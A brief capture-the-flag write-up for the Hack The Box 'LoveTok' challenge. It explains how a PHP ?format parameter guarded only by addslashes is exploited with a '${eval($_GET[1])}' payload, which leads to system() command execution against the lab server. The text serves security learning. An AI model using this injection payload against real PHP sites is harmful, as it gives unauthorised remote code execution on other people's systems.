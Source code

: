 # LoveTok


### Challenge Author(s): [makelarisjr](https://app.hackthebox.eu/users/95)&[makelaris](https://app.hackthebox.eu/users/107)

### Description: 
   ```
   True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛
   ```
### Difficulty: `Easy`
---
# Challenge

Looking at the downloadable files the site has a ?format parameter which will be processed in php.

So I started googling php parameter injection but they didn't work much.
I started searching for about addslashes function present in the `TimeModel.php`

https://www.programmersought.com/article/30723400042/ Found this with the

Payload
```
?str=${eval($_GET[1])}&1=phpinfo();
```

which worked.

you can use `system()` to exec terminal commands.


```
http://188.166.173.208:31038/?format=${eval($_GET[1])}&1=system(%27ls%20/%27);
```

![[Pasted image 20210818123218.png]]

We just use cat to read the flag file.